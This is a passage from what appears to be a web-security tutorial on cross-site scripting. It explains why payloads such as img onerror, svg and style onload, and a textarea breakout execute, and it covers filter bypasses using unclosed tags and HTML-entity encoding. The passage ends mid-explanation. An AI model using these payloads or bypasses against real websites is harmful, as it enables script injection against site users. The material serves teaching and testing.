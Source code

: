 Because of the above reasons, it is often a safer idea to use a common payload like:

```html
<img src onerror=alert()>
```

The special thing about this payload is that an image should be loaded, which the browser really wants to do as soon as it is inserted, even on the client side. This causes the `onerror=` handler to instantly trigger consistently, no matter how it is inserted (read more details in [#triggers](cross-site-scripting-xss.md#triggers "mention")).\
In some cases a common variation is the following:

<pre class="language-html"><code class="lang-html">&#x3C;!-- Shortest payload -->
<strong>&#x3C;svg onload=alert()>
</strong>&#x3C;!-- Short but universal -->
<strong>&#x3C;style onload=alert()>
</strong></code></pre>

The small difference between these two payloads is that the first works everywhere except **Firefox client-inserted**, and the second works everywhere while remaining relatively short.&#x20;

#### Special Tags

When inserted into the content of a `<textarea>`, JavaScript code won't be directly executed in any way. Therefore you need to first close this specific tag using `</textarea>`, and then continue with a regular XSS payload like normal.&#x20;

<pre class="language-html"><code class="lang-html">&#x3C;!-- Doesn't execute -->
&#x3C;textarea>&#x3C;img src onerror=alert()>&#x3C;/textarea>
&#x3C;!-- Does execute! -->
<strong>&#x3C;textarea>&#x3C;/textarea>&#x3C;img src onerror=alert()>&#x3C;/textarea>
</strong></code></pre>

#### Common Filter Bypasses

While the above are simple, they are also the most common, and many filters already recognize these patterns as malicious and block or sanitize your payload in some way that will try to make it safe. This topic is explored more in [#filter-bypasses](cross-site-scripting-xss.md#filter-bypasses "mention"), but a few of the best tricks are displayed here. The first is when a RegEx pattern like `<[^>]>` expects a `>` to close a tag, which can be omitted often because another future tag will close it for you:

{% code title="Payload" %}
```html
<style onload=alert() x=
```
{% endcode %}

{% code title="Context" %}
```html
<p><style onload=alert() x=</p>
```
{% endcode %}

It is common for dangerous tags to be blacklisted, and any event handler attributes like `onload` and `onerror` to be blocked. There are some payloads however that can _encode_ data to hide these obligatory strings (`&#110;` = HTML-encoded `n`, [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity\(true,'Numeric%20entities'\)\&input=bg)):


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed